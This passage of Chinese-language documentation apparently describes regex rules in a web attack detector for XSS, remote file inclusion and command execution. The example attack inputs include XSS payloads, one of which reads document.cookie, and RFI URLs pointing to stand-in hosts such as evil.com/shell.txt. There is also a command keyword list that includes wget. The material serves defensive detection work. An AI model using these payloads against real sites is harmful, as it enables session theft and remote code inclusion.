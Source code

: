 **正則表達式**:
```python
XSS_ATTACK = re.compile(r".*<(.|\n)*?>")
```

**偵測邏輯**:
- 檢查是否包含 HTML 標籤 `<...>`
- 可以跨行比對

**範例攻擊**:
```
/?name=<script>alert('XSS')</script>
/?comment=<img src=x onerror=alert(1)>
/?search=<svg onload=alert(document.cookie)>
```

**優先級**: Order = 3

---

### 4. RFI (遠端檔案包含)

**正則表達式**:
```python
RFI_ATTACK = re.compile(r".*((http(s){0,1}|ftp(s){0,1}):).*", re.IGNORECASE)
```

**偵測邏輯**:
- 檢查是否包含外部 URL 協議
- 支援 `http://`, `https://`, `ftp://`, `ftps://`
- 不區分大小寫

**範例攻擊**:
```
/?page=http://evil.com/shell.txt
/?file=https://attacker.com/backdoor.php
/?include=ftp://malicious.net/exploit.txt
```

**優先級**: Order = 2

---

### 5. CMD_EXEC (命令執行)

**正則表達式**:
```python
CMD_ATTACK = re.compile(
    r".*[^A-z:./]"
    r"(alias|cat|cd|cp|echo|exec|find|for|grep|ifconfig|ls|man|mkdir|netstat|ping|ps|pwd|uname|wget|touch|while)"
    r"([^A-z:./]|\b)"
)
```

**偵測邏輯**:
- 檢查是否包含 Linux/Unix 常見命令
- 偵測的命令包括：
  - 檔案操作: `cat`, `cp`, `ls`, `mkdir`, `touch`, `find`
  - 系統資訊: `uname`, `pwd`, `ps`, `ifconfig`, `netstat`
  - 網路工具: `ping`, `wget`
  - 其他: `echo`, `exec`, `grep`, `for`, `while`
